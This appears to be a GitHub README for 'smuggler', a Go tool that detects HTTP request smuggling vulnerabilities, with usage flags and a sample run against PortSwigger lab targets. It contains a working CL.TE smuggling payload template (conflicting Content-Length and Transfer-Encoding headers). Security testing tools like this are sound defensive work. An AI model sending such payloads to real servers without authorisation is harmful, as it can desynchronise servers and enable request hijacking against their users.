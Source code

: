 # smuggler
A tool for detecting HTTP request smuggling vulnerabilities  
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it easy to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.



Templates:
```
POST {{.Path}} HTTP/1.1
Host: {{.Host}}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G

```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -proxy string
    	Set the Golang proxy, for example: http://example.com:8080
  -u string
    	Target URL
  -urls string
    	List of URLs

```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test 
https://ac291f541e8bb695c0338e2700cd00fb.web-security-academy.net/ is vulnerable
https://ac761f071e92b6b8c0448fee001c0096.web-security-academy.net/ is vulnerable
https://acb71f6e1f079d25c08104be00290033.web-security-academy.net/ is vulnerable
```
